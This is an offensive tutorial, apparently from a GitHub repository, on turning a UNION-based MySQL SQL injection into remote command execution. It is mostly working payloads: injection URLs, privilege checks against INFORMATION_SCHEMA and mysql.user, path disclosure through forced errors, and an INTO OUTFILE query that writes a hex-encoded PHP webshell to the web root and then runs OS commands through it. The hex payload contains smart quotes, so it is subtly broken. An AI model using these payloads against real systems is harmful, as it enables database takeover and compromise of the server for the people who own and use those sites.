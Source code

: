 # MySQL Privilege Escalation

## Identifying the vulnerability

Let's suppose that the website has 12 columns and the given UNION Based SQL query shows that the vulnerable column is 4:

```http://domain.com/index.php?id=1' Union Select 1,2,3,4,5,6,7,8,9,10,11,12-- -```

Payload used for Privilege Check via I_S.PRIVILEGES:
```(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES)```

Payload used for Privilege Check via MySQL System Table
```(SELECT+GROUP_CONCAT(user,0x202d3e20,file_priv,0x3c62723e)+FROM+mysql.user)```

Apply one of the queries into the 4th column:
```http://domain.com/index.php?id=1' Union Select 1,2,3,(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES),5,6,7,8,9,10,11,12-- -```

Look into the results, if 'root'@'localhost' is YES, then we can perform Privilage Escalation (perform RCE). Else, if NO is shown we can't perform RCE since we don't have permission to write over the server/database.

## Escalating privileges

Since we have permission to write, we can create our own PHP Webshell, but to do this we need to know the absolute path of INDEX.

### Finding absolute path

The most common way is to perform a 'Fatal Error' or a Syntax Error and the absolute path will be shown bolded like the image below.
Note: different websites displayes different output and format.

![fatal_error_syntax](https://i.imgur.com/rAPKrh1.png)

The bold part is the absolute path: **E:\xampp\htdocs** which is converted to **E:/xampp/htdocs**

### Uploading webshell

Below is the PHP script converted to 0xHEX format:
```0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d```

The converted PHP payload:
```“<?php system($_GET[‘cmd’]); ?>”```

The given query is the final payload to upload our simple webshell into webshell.php

```http://domain.com/index.php?id=1' Union Select 1,2,3,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,5,6,7,8,9,10,11,12 into outfile 'E:/xampp/htdocs/webshell.php'-- -```

Since the webshell is upload, you can go execute OS Commands:

```http://domain.com/webshell.php?cmd=whoami```



